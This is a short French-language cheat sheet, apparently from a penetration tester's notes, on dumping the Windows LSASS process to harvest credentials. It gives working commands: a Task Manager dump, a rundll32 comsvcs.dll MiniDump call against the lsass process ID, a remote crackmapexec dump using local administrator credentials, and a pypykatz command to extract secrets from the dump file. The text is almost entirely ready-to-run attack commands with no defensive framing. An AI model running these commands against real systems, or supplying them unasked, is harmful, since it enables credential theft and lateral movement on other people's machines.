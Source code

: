 ```yaml
---
public: true # set to true to make the article publishable
---
```


## DUMP de LSASS

## Localement
### Génération d'un dump via le gestionnaire de tâches

Bouton droit sur  le processus > Créer un fichier dump
Le fichier est créé dans le dossier %TEMP%

### Rundll32.exe & Comsvcs.dll
-  Trouver le pid de lsass : 
	- `tasklist /svc`
	- `Get-Process lsass`
- Créer le dump (pid = 672) :
	- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`




## A distance
```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
```

## Extraction d'informations d'identification

```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```